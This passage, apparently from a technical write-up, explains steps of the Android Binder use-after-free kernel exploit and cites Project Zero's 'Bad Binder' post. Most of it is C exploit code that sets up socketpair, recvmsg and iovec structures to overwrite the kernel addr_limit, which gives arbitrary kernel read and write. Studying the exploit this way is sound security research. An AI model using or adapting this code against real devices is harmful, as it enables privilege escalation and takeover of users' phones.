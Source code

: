 ```c
        return wanted - bytes;
}
```

In [Project Zero blog](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html), they use `recvmsg` instead since it allows blocking by passing `MSG_WAITALL` flag.

### Initializing for Overriding addr_limit

```c
struct msghdr message = {nullptr};
struct iovec iovecs[IOVEC_COUNT] = {nullptr};
int sock_fd[2] = {0};
int binder_fd = open_binder();
int epfd = create_epoll();
socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fd);
static char junk_sock_data[] = {0x41};
write(sock_fd[1], junk_sock_data, sizeof(junk_sock_data));// should sent 1 bytes
```

Similar setup to [initializing for task_struct leak](#initializing-for-task_struct-leak). Difference is we use `socketpair` instead of `pipe` so we can use `recvmsg`. Also, we have to send some junk data so that when `recvmsg` is called, it processes the junk data and kmalloc `iovecs` in kernel.

### Setting up iovecs

```c
iovecs[10].iov_base = m_lock_page;            // binder_thread->wait.lock
iovecs[10].iov_len = 1;                       // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
iovecs[12].iov_base = (void *)0x42424242;
iovecs[12].iov_len = 0x8;

uint64_t addr_limit_ptr = (uint64_t)((uint8_t *)m_task_struct_ptr + OFFSET_TASK_STRUCT_ADDR_LIMIT);
info("\taddr_limit_ptr: 0x%lx", addr_limit_ptr);
static uint64_t override_binder_thread_wait[] = {
    0x1,                   // iovecStack[IOVEC_WQ_INDEX].iov_len
    0x41414141,            // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
    0x8 + 0x8 + 0x8 + 0x8, // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
    addr_limit_ptr,        // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
    0xFFFFFFFFFFFFFFFE     // addr_limit value. It will be written to addr_limit_ptr above
};

message.msg_iov = iovecs;
message.msg_iovlen = IOVEC_COUNT;
```